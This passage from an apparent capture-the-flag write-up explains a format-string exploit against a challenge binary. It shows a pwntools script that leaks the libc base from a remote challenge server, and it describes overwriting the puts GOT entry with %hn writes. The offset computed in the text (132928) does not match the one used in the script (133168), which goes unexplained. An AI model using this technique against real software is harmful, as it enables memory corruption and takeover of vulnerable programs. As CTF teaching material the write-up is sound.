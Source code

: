 Let's use python to calculate the offset.

```
root@b1a0c5b0df97 /pwn# python
Python 2.7.16 (default, Dec 13 2019, 18:00:32) 
[GCC 4.2.1 Compatible Apple LLVM 11.0.0 (clang-1100.0.32.4) (-macos10.15-objc-s on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> libc_start_main = 0x7ffff7a2d740
>>> libc_base = 0x7ffff7a0d000
>>> libc_start_main - libc_base
132928
```

Great! The offset seems to be `132928`. Through some trial and error, we can find that `%27$p` will give us the `<__libc_start_main+240>` address.

```
(gdb) r
Starting program: /pwn/library_in_c 
Welcome to the LIBrary in C!
What is your name?
%25$p %26$p %27$p %28$p %29$p %30$p
Why hello there 0xabb2f3a2c9026f00 0x400890 0x7ffff7a2d830 0x1 0x7fffffffe748 0x1f7ffcca0
```

Now we have all necessary information to write a python script that leaks the base address of libc. I will use [pwntools](https://github.com/Gallopsled/pwntools) since it is easy to use and works very well.

{% highlight python %}
from pwn import *

r = remote('shell.actf.co', 20201)

# format string to leak <__libc_start_main+240>
r.sendline(';%27$p;')

# __libc_start_main address
libc_start_main = int(r.recvuntil('check out?').split(';')[1], 16) - 240

# libc base address
libc_base = libc_start_main - 133168

print(hex(libc_base))
{% endhighlight %}

All that is left to do now is to overwrite the address of puts, which we found above to be stored at `0x601018`. To do this, we can use the format string modifier `%n` which will write the total number of bytes printed to the argument. It works well to use this along with `%Nx`, because this modifier will print a hex word padded to size N. In order to do this more effieiently, I split up the address into three two-byte sections, so it wouldn't be necassary to print millions of bytes for the format string. This is achieved through [bit masking](https://en.wikipedia.org/wiki/Mask_(computing)). The "h" before the "n" in `%hn` will operate on halfwords (two bytes) instead of full words (four bytes). Through trial and error you will find that the three addresses after byte 40 in the payload can be accessed with `%21$p`, `%22$p`, and `%23$p`. Changing the "p"s to "n"s will allow us to write to these addresses. 
